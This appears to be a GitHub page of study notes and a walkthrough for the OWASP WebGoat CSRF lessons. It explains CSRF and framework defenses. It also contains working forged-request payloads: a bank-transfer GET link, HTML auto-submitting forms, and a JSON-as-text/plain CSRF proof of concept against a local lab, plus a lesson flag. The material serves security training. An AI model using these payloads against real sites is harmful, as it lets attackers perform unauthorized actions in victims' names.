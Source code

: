 # Cross-Site Request Forgery (CSRF)
- type of malicious exploit of a website
- unauthorized commands are transmitted from a user that the website `trusts`
- differ from XSS which exploits the `trust` a `user` has in a website.
- CSRF exploits the trust that a site has in the `user's browser`.

## Common Characteristics
- involves sites that rely on a user's identity
- exploits the site's trust in that identity
- tricks the user's browser into sending HTTP requests to a target site
- involves HTTP requests that have side effects

## Who is at risk?
- web applications that perform actions based on input from trusted and authenticated users
- without requiring the user to authorize the specific action
- a user who is authenticated via a cookie saved in the user's browser
- could unknowingly send a HTTP request to a site that trusts the user and thereby causes an unwanted action

## CSRF's targets
- abuses basic web functionalities
- attacks target state-changing requests

## CSRF with GET Request
```
<a href="http://bank.com/transfer?account_number_from=123456789&account_number_to=987654321&amount=100000">View my Pictures!</a>
```
If user is still logged into the website of bank.com, this GET request will transfer money from one account to another.

## Exercise 1
![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/18%20CSRF%20exercise%201.PNG?token=ANjmppupghhlEGRg8xfMWV1ayBLSIDRmks5bzIcJwA%3D%3D)

Click on the `Submit` button.

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/19%20CSRF%20click%20on%20submit%20button.PNG?token=ANjmpnIzAi2k9Xe9YyeYbLt4Q5G0nuW5ks5bzIdQwA%3D%3D)

Note the URL:
```
http://localhost:8080/WebGoat/csrf/basic-get-flag?csrf=false&submit=Submit
```

Change it to:
```
http://localhost:8080/WebGoat/csrf/basic-get-flag?csrf=true&submit=Submit
```
Can see that the server does not expect the user to change the value in the URL.
[trust in user's browser exploited]

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/20%20CSRF%20exercise%201%20completed.PNG?token=ANjmpt1L6Px7ihYS91cQhHtvqkVdBcDXks5bzIeiwA%3D%3D)

Input the value of flag to confirm it's value.

### Alternative Way
Craft your own html page to make the external request:
```html
<html>
	<body>
		<form action ="http://localhost:8080/WebGoat/csrf/basic-get-flag">
			<input type="hidden" name="csrf" value="false" />
			<input type="hidden" name="submit" value="Submit&#32;Query" />
			<input type="submit" value="Submit" />
		</form>
	</body>
</html>
```
Open this file in the browser, and click the submit button.
You will get the same results as above.

## Exercise 2
Goal: to trigger a review submission on behalf of the currently logged in user.

Use burp to intercept the request and note the fields in the request.

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/21%20CSRF%202%20note%20the%20fields%20in%20the%20request.PNG?token=ANjmpr88_Sk--i7aApfotD0Yleo0z8Qzks5bzJ59wA%3D%3D)

Craft the external html request:
```html
<html>
	<body>
		<form action ="http://localhost:8080/WebGoat/csrf/review" method=post enctype="application/x-www-form-urlencoded; charset=UTF-8">
			<input type="hidden" name="reviewText" value='anything' />
			<input type="hidden" name="stars" value="5" />
			<input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9" />
			<input type="submit" value="Submit" />
		</form>
	</body>
</html>
```

Open this file in the web browser and click on the submit button.
```
{
  "lessonCompleted" : true,
  "feedback" : "It appears you have submitted correctly from another site. Go reload and see if your post is there.",
  "output" : null
}
```
![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/23%20CSRF%202%20done.PNG?token=ANjmpg0qgIw4JZd0RZhWR75m8k6EvZrvks5bzJ6VwA%3D%3D)

## Automatic Support from Frameworks
- most frameworks now have default support for preventing CSRF.
- only code on your domain could read the cookie.
- therefore backend can be certain that the HTTP request comes from client application and not the attacker.
- in order for this to work, the backend server sets the token in a cookie.
- cookie should not be marked with the http-only flag.
- on every request, browser put token in the X-XSRF-TOKEN as a HTTP header.
- server can validate whether these two tokens match
- ensure the server and the request is running in the same domain.
```
Important!
Define a separate cookie
Do not reuse the session cookie
Session cookie should always be defined with http-only flag
```

### Custom Headers are not Safe
- another defense can be to add a custom request header.
- will work if all the interactions with the server are performed with JavaScript.
- on server side, only need to check the presence of this header
- if header is not present: deny request
- however, this method can by bypassed too

```
Should always implement a CSRF protection instead of relying on the content-type of APIs.
```

## Exercise 3
Need to avoid preflighted request! Instead, use simple request. Meaning that content type can only be:
```
application/x-www-form-urlencoded
multipart/form-data
text/plain
```

Capture the request based on parameters in request:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/24%20CSRF%203%20captured%20request.PNG?token=ANjmprZtH4JBeGm-yG8-octZ3JuJhx58ks5bzKkzwA%3D%3D)

Craft external request:
```html
<html>
	<title>JSON CSRF POC</title>
	<h1>JSON CSRF POC</h1>
	<body>
		<form action =http://localhost:8080/WebGoat/csrf/feedback/message method=post enctype="text/plain">
			<!-- mask json data as plain text -->
			<input type="hidden" name='{"name":"WebGoat","email":"webgoat@webgoat.org","content":"Webgoat is the best!!","ignore_me":"' value='test"}' />
			<!-- confuse browser that {"name":"WebGoat","email":"webgoat@webgoat.org","content":"Webgoat is the best!!","ignore_me":" is the name of the parameter -->
			<input type="submit" value="Submit" />
		</form>
	</body>
</html>
```

Open file in browser and press the submit button.
```
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations you have found the correct solution, the flag is: c450897e-e0a2-4b14-87d9-127a626cfa56",
  "output" : null
}
```

Lesson completed.

## Exercise 4
Register a new user in another tab:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/25%20CSRF%204%20create%20a%20new%20user.PNG?token=ANjmpl9F-g9FhvcdZWdU2tYsT2aNAud4ks5bzKwowA%3D%3D)

Note: it doesn't have to be captured by burp.

Login as the new user:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/26%20CSRF%204%20login%20as%20new%20user.PNG?token=ANjmpoDaMHJflu_hKIZ82W4BMIHDqgL9ks5bzKxZwA%3D%3D)

Click on button in original tab:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/27%20CSRF%204%20click%20on%20button.PNG?token=ANjmphLS8_V0P5VDrCYrL8Eg3dmDxeimks5bzKyLwA%3D%3D)

Lesson completed.
